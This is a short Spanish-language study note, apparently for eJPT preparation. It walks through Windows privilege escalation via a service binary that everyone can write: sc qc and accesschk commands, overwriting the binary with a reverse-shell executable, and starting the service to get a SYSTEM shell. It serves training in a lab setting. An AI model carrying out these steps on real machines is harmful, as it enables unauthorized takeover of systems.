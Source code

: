 - Consulta el "filepermsvc" servicio y noque se ejecuta con privilegios SYSTEM (SERVICE_START_NAME).

```
sc qc filepermsvc
```

- Usando accesschk.exe, tenga en cuenta que el archivo binario de servicio (BINARY_PATH_NAME) es escribible por todos:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

- Copie el ejecutable reverse.exe que creó y reemplace el filepermservice.exe con él:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

```
- Inicie un oyente en Kali y luego comience el servicio para generar una carcasa inversa que funcione con privilegios de SISTEMA:

```
net start filepermsvc
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Insecure Service Permissions]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Unquoted Service Path]] 
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Weak Registry Permissions]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]